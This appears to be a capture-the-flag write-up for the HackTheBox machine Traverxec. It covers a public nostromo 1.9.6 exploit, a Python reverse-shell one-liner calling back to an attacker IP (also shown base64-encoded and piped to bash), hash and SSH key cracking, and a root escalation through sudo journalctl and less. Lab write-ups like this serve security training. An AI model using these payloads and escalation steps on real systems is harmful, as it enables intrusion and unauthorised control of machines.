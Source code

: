 # Traverxec HackTheBox

![image](https://user-images.githubusercontent.com/5285547/124390855-611f6100-dce5-11eb-9e04-504177808d60.png)


## Nmap 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
```

What's nostromo 1.9.6? I've not seen that before. 
Let's check it out. 

## www-data 

Finding an exploit online and checking it out, seems a socket is used to connect back to the server, nice!

Exploit: https://www.exploit-db.com/exploits/47837

```
 python2.7 cve2019_16278.py 10.10.10.165 80 id
```

![image](https://user-images.githubusercontent.com/5285547/124392012-510a8000-dceb-11eb-98b7-078c1895ce3c.png)

Nice, time for a reverse shell. 

## Payload

python3
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.15",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

- Then base64 encoded
- Then urlencoded (all charaters)


- Final payload & command
```
python2.7 cve2019_16278.py 10.10.10.165 80 "echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE2LjE1Iiw5OTk5KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiYmFzaCIpJw%3D%3D|base64 -d|bash"
```

![image](https://user-images.githubusercontent.com/5285547/124392273-7a77db80-dcec-11eb-991f-d8bb03df01b4.png)


We're on the box
Using linpeas.sh to enumerate I find david's hash, craking time 2!

![image](https://user-images.githubusercontent.com/5285547/124392503-d8f18980-dced-11eb-9ed4-921b7abde379.png)


```
~/src/john/run/./john hash -w=/usr/share/SecLists/Passwords/rockyou.txt
(I'm using linux mint, adjust to your needs for kali, parrot etc)
```

![image](https://user-images.githubusercontent.com/5285547/124392492-c8d9aa00-dced-11eb-90ce-bc6619bcf4c8.png)

Enumerating the conf files gave away some juicy info realtead to where server paths are defined

```
cat nhttpd.conf 
# MAIN [MANDATORY]

servername		traverxec.htb
serverlisten		*
serveradmin		david@traverxec.htb
serverroot		/var/nostromo
servermimes		conf/mimes
docroot			/var/nostromo/htdocs
docindex		index.html

# LOGS [OPTIONAL]

logpid			logs/nhttpd.pid

# SETUID [RECOMMENDED]

user			www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess		.htaccess
htpasswd		/var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons			/var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs		/home
homedirs_public		public_www
```

In the /home/david/public_www folder we can find a backup file

![image](https://user-images.githubusercontent.com/5285547/124393531-d7769000-dcf2-11eb-8b94-b40961993b44.png)

Moving the backup file to the tmp file i extracted the data

```
tar -xvf backup-ssh-identity-files.tgz
```

![image](https://user-images.githubusercontent.com/5285547/124393598-14db1d80-dcf3-11eb-9c28-f6179112c44c.png)

Now with the id_rsa key I can use ssh2john to crack the id_rsa, then get onto the box as David.

```
./ssh2john id_rsa > hash
john hash wordlist
```

![image](https://user-images.githubusercontent.com/5285547/124393704-a9de1680-dcf3-11eb-9327-f9082bcaf77d.png)


```
ssh david@10.10.10.165 -i id_rsa
Nowonly4me
```
## David (User)

Result!

![image](https://user-images.githubusercontent.com/5285547/124393778-fa557400-dcf3-11eb-8cfa-2246c8d2e698.png)


## Root

In Davids home folder is a bash script showing a command we can run as root with no password

```
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```

Running the last line gives us sudo execution, not time to find out how to exploit journalctl
Seeing that -n means the last five lines, if we make the termainl smaller then 5 lines we should be bumped into the less command as root

![image](https://user-images.githubusercontent.com/5285547/124394236-8a94b880-dcf6-11eb-935f-f5f95139647d.png)

```
!/bin/sh

# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls;hostname
nostromo_1.9.6-1.deb  root.txt
traverxec
```

And get the root flag!



